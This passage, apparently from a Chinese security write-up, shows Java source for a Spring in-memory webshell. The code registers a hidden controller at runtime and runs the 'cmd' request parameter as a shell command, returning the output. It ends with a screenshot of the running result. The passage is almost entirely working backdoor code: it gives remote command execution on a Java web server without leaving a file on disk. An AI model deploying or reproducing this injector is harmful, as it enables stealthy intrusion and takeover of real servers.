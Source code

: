 ```bash
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method = InjectedController.class.getMethod("cmd");
        PatternsRequestCondition urlPattern = new PatternsRequestCondition(controllerName);
        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(urlPattern, condition, null, null, null, null, null);
        InjectedController injectedController = new InjectedController();
        requestMappingHandlerMapping.registerMapping(info, injectedController, method);
        return "[+] Inject successfully!<br>[+] shell url: http://localhost:8080" + controllerName + "?cmd=ipconfig";
    }

    @RestController
    public static class InjectedController {

        public InjectedController(){
        }

        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            response.setCharacterEncoding("GBK");
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}
```

运行效果：

[![](assets/1708482732-4eb998eb1fcc9c22b40c16604e2671b6.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003501-55f21d3c-c832-1.jpeg)

